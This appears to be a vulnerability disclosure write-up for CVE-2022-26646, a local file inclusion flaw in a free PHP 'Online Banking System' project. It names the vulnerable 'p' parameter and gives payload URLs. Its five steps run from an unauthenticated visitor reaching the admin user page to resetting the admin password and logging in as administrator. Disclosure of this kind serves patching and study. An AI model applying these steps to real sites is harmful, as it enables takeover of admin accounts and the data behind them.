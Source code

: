 # Tittle: Online Banking System LFI.

## Author: (Erik451)
## Vendor Homepage: [https://www.sourcecodester.com/](https://www.sourcecodester.com/)
## Software Link: [https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html](https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html)
## Version: OBS 1.0
## CVE: CVE-2022-26646
-   Description: The parameter "p" includes files. A user can read internal php files of the web. LFI to Privilege Escalation
-   Null session account to admin
-   Payload used: `http://web.com/banking/?p=<any_phpfile>`

### **Steps to reproduce:**

- 1- Go to home page [http://localhost/banking/?p=about](http://localhost/banking/?p=about)

![nullsession](https://user-images.githubusercontent.com/47476901/160772671-238ab371-036f-4763-aac5-f2d59aca42ad.png)

- 2- Load the admin user page [http://localhost/banking/?p=admin/user/index](http://localhost/banking/?p=admin/user/index)

![adminpage](https://user-images.githubusercontent.com/47476901/160772705-978e6fc1-a2b5-439a-85f2-cd2959267bf4.png)


- 3- Change the admin password

![changepass](https://user-images.githubusercontent.com/47476901/160647853-084108de-0592-4c79-8d3a-f7a1d3692466.png)

- 4- Login as administrator

![login](https://user-images.githubusercontent.com/47476901/160647880-c00a310c-ca03-4fef-839f-0131122ee50d.png)


- 5- Admin panel

![adminpanel](https://user-images.githubusercontent.com/47476901/160647820-d55df39c-9287-4bd5-8214-e10558e8aa09.png)


#### Other Payload:
Reading info.php

![infophp](https://user-images.githubusercontent.com/47476901/160773672-89489f95-973e-490c-b331-a36128103ef0.PNG)
